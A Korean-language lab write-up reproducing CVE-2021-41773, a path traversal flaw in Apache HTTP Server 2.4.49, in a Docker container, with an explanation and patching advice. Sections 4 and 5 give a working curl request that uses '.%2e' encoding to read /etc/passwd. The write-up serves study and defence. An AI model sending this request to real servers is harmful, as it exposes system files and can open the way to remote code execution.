

# CVE-2021-41773

**Contributors**
* 김나연 (@Nayeon07)

## 1. 취약점 요약

* **CVE**: CVE-2021-41773
* **영향 대상**: Apache HTTP Server 2.4.49
* **취약점 유형**: Path Traversal
* **CVSS v3.1**: 7.5 (High)

CVE-2021-41773은 Apache HTTP Server 2.4.49에서 발생하는 Path Traversal 취약점이다. Apache의 경로 정규화(Path Normalization) 과정에 존재하는 오류를 이용하여 공격자는 특수하게 인코딩된 URL(`.%2e`)을 통해 웹 루트 디렉터리 외부의 파일에 접근할 수 있다. 서버 설정에 따라 `/etc/passwd`와 같은 시스템 파일을 읽을 수 있으며, CGI가 활성화된 환경에서는 원격 코드 실행(RCE)으로 이어질 수도 있다.

### 참고 자료

* https://nvd.nist.gov/vuln/detail/CVE-2021-41773
* https://httpd.apache.org/security/vulnerabilities_24.html
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773


## 2. 환경 구성

다음 명령어를 이용하여 취약 환경을 실행한다.

```bash
docker compose up -d
```

컨테이너가 정상적으로 실행되었는지 확인한다.

```bash
docker compose ps
```

실행 결과


Apache 서버는 다음 주소에서 접근할 수 있다.

```
http://localhost:8080
```


## 3. 취약 조건

다음 조건을 만족하는 경우 취약점이 발생한다.

* Apache HTTP Server 2.4.49 사용
* 웹 루트 외부 디렉터리에 대한 접근이 허용되는 설정(`Require all granted`)
* 공격자가 특수하게 인코딩된 URL을 전송할 수 있는 환경
* CGI가 활성화된 경우 원격 코드 실행(RCE)로 확장될 수 있음


## 4. 재현 절차

### 1) Apache 서버 정상 동작 확인

다음 명령을 실행하여 서버가 정상적으로 동작하는지 확인한다.

```bash
curl http://localhost:8080
```

실행 결과


### 2) Path Traversal 공격 수행

다음 명령을 실행한다.

```bash
curl --path-as-is http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```


## 5. PoC 코드

CVE-2021-41773은 Apache HTTP Server 2.4.49의 경로 정규화(Path Normalization) 과정에서 발생하는 취약점이다.

일반적으로 웹 서버는 요청 경로에 포함된 `../`를 해석하여 상위 디렉터리로 이동하는 것을 제한한다. 그러나 Apache 2.4.49에서는 URL 인코딩된 `.%2e`(`%2e`는 `.`을 의미)를 포함한 경로를 처리하는 과정에 오류가 존재한다.

예를 들어 다음 요청은 서버에서 다음과 같이 해석된다.

```text
/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
        ↓
/cgi-bin/../../../../etc/passwd
```

`..`는 상위 디렉터리로 이동하는 의미이므로, 반복해서 사용하면 웹 루트 디렉터리를 벗어나 시스템 파일이 위치한 `/etc/passwd`까지 접근할 수 있다.

또한 `--path-as-is` 옵션은 curl이 요청 경로를 미리 정규화하지 않고 입력한 URL을 그대로 서버로 전송하도록 한다. 이 옵션이 없으면 curl이 경로를 변환하여 취약점이 정상적으로 재현되지 않을 수 있다.

다음 명령을 실행하여 취약점을 재현한다.

```bash
curl --path-as-is http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

명령이 성공하면 Apache는 웹 루트 외부에 존재하는 `/etc/passwd` 파일을 반환하며, 이를 통해 Path Traversal 취약점이 존재함을 확인할 수 있다.


## 6. 실행 결과

PoC를 실행하면 컨테이너 내부의 `/etc/passwd` 파일 내용이 출력되는 것을 확인할 수 있다.

실행 결과



이를 통해 Apache HTTP Server 2.4.49에서 Path Traversal 취약점이 정상적으로 재현됨을 확인하였다.


## 7. 대응 방안

* Apache HTTP Server를 **2.4.51 이상**으로 업데이트한다.
* 웹 루트 외부 디렉터리에 대해 `Require all denied` 설정을 유지한다.
* 불필요한 CGI 기능을 비활성화한다.
* 최신 보안 패치를 지속적으로 적용하고 정기적인 보안 점검을 수행한다.
